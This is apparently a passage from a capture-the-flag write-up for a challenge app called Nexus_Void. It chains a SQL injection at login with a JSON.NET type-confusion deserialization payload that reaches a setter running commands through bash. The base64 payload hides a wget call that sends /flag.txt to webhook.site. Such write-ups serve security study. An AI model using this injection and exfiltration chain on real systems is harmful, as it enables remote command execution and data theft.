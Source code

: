 ```c++
                _command = value;
                try
                {
                    var p = new System.Diagnostics.Process();

                    var processStartInfo = new ProcessStartInfo()
                    {
                        WindowStyle = ProcessWindowStyle.Hidden,
                        FileName = $"/bin/bash",
                        WorkingDirectory = "/tmp",
                        Arguments = $"-c \"{_command}\"",
                        RedirectStandardOutput = true,
                        RedirectStandardError = true,
                        UseShellExecute = false
                    };
                    p.StartInfo = processStartInfo;
                    p.Start();

                    output = p.StandardOutput.ReadToEnd();
                }
                catch 
                {
                    output = "Something went wrong!";
                }
                
            }
        }
    }
}

```

We can use the following payload to invoke this setter method

```json
{"$type":"Nexus_Void.Helpers.StatusCheckHelper, Nexus_Void","output":null,"command":"[COMMAND]"}
```

and use the logging payload as `username`

```sql
herox' UNION SELECT ALL 8,"herox','eyIkdHlwZSI6Ik5leHVzX1ZvaWQuSGVscGVycy5TdGF0dXNDaGVja0hlbHBlciwgTmV4dXNfVm9pZCIsIm91dHB1dCI6bnVsbCwiY29tbWFuZCI6IndnZXQgaHR0cHM6Ly93ZWJob29rLnNpdGUvMTVhYTA2ZjgtZWU0Zi00OTdjLTlmMTYtMjJhYjRhMzBmYTljP3g9JChjYXQgL2ZsYWcudHh0KSJ9')--", "herox"-- 
```

the base64 encoded string is the payload here. We can use the payload while logging in so the application uses this value as username in our JWT token

```bash
herox','eyIkdHlwZSI6Ik5leHVzX1ZvaWQuSGVscGVycy5TdGF0dXNDaGVja0hlbHBlciwgTmV4dXNfVm9pZCIsIm91dHB1dCI6bnVsbCwiY29tbWFuZCI6IndnZXQgaHR0cHM6Ly93ZWJob29rLnNpdGUvMTVhYTA2ZjgtZWU0Zi00OTdjLTlmMTYtMjJhYjRhMzBmYTljP3g9JChjYXQgL2ZsYWcudHh0KSJ9')--
```
